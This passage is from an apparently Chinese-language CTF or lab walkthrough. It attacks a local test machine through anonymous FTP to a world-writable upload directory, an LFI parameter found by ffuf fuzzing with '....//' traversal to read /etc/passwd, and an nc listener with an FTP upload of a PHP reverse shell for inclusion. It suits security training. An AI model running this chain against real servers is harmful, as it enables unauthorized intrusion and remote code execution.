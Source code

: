 ```shell
```

成功匿名登录FTP，发现一个名为`upload`的目录，且权限为777（可读可写可执行）。在该目录下，发现一个隐藏文件`.pwd`，下载后查看其内容。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat -A .pwd
/srv/ftp/upload$
```

文件内容为路径`/srv/ftp/upload`，这很可能是FTP `upload`目录在服务器上的绝对路径。这个信息对后续利用LFI漏洞至关重要。

#### **2. Web服务LFI漏洞**

访问80端口的Web服务。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -v 192.168.205.252
...
<!-- LFI -->
...
```

页面返回的HTML注释中存在`<!-- LFI -->`，强烈暗示该页面存在本地文件包含（Local File Inclusion）漏洞。使用`ffuf`工具对URL参数进行模糊测试，尝试读取`/etc/passwd`文件。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ffuf -u 'http://192.168.205.252?FUZZ=....//....//....//etc/passwd' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --fs 14
...
file                    [Status: 200, Size: 1465, Words: 16, Lines: 30, Duration: 2ms]
...

```

爆破成功，发现存在一个名为`file`的参数可用于文件包含。

#### **3. 获取反向Shell**

利用思路是：通过FTP上传一个PHP反向Shell到具有写权限的`upload`目录，然后通过LFI漏洞包含并执行该PHP文件，从而获取服务器的Shell。

**a. 准备反向Shell并监听端口**

在Kali上准备好`reverse.php`文件，并使用`nc`监听8888端口。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

**b. FTP上传Shell**

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ftp anonymous@192.168.205.252
...
230 Login successful.
ftp> cd upload
250 Directory successfully changed.
ftp> put reverse.php
...
226 Transfer complete.
```
